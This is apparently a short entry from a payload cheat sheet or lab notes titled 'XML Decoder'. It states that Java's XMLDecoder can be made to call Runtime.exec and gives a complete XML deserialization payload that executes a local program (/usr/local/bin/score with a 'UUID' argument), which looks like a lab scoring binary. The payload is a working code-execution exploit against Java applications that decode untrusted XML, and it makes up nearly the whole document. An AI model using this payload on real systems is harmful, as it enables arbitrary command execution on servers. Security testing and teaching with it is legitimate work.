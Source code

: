 #### XML Decoder

You can embed an ‘exec’ call into a java.RunTime object call if using XMLDecoder.
```XML
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
    <object class="java.lang.Runtime" method="getRuntime">
        <void method="exec">
            <array class="java.lang.String" length="2">
                <void index="0">
                    <string>/usr/local/bin/score</string>
                </void>
                <void index="1">
                    <string>UUID</string>
                </void>
            </array>
        </void>
    </object>
</java>
```
